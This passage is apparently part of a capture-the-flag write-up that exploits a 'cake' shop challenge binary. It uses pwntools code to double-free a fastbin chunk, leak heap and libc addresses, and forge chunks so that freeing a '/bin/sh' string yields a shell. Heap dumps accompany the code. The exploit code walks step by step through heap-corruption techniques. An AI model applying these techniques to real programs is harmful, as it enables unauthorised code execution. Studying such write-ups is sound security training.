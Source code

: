 So here I created some functions to make my life a little easier while interacting with the process, nothing fancy.  

```python
#################
make("daaa", 0x656565) #0
make("eaaa", 0x656565) #1
make("AAAA"*10, 10) #2
make("BBBB"*10, 10) #3
#gdb.attach(r)
serve(0)
serve(1)
serve(0)
```    
In above code I have `double-freed` 0th `cake` which causes price of 0th `cake` to convert into a heap address. As this is fastbin, it will be pointing to next chunk in free list meaning 1th `cake`. This you can see in the heap dump below.
```
0x5622d06c0010:	0x0000000000000000	0x0000000000000021
0x5622d06c0020:	0x00005622d06c0030	0x0000000061616164
0x5622d06c0030:	0x0000000000000000	0x0000000000000021
0x5622d06c0040:	0x00005622d06c0010	0x0000000061616165
0x5622d06c0050:	0x0000000000000000	0x0000000000000021
0x5622d06c0060:	0x000000000000000a	0x0041414141414141
0x5622d06c0070:	0x0000000000000000	0x0000000000000021
0x5622d06c0080:	0x000000000000000a	0x0042424242424242
0x5622d06c0090:	0x0000000000000000	0x0000000000020f71
```

```python
#leak heap
inspect(0)
r.recvuntil("for $")
heap_addr = int(r.recvline().strip(), 10)
log.info("heap: 0x{:x}".format(heap_addr))
```

Now I can just print the price of 0th `cake` to leak heap address. Actually heap leak is never getting used in exploit ahead but while solving challenges I just leak everything I can ;P  

```python
#############
#wait for customers to be 0x21
while True:
    rd = r.recvuntil("waiting.")
    got = re.findall(ur'and have (.+?) customers waiting', rd)[0]
    if int(got) < 0x21:
        log.info(got)
        wait_c()
        #r.interactive()
    elif int(got) == 0x21:
        break
    else:
        sys.exit()

#############
make("aaaa", 0x6030E0) #4 # (&shop->sold + 0 + 2LL) - 0x10  == 0x6030E0
#gdb.attach(r)
make("bbbb", u64('/bin/sh\x00')) #5 # I free this chunk at the end to pop shell!
make("aaaa", 0x31313131) #6
make(p64(0x21), 0x603088) #7
inspect(0)
libc_base = u64(r.recv(6) + "\x00"*2) - 0x3af60
log.info("libc base: 0x{:x}".format(libc_base))
```
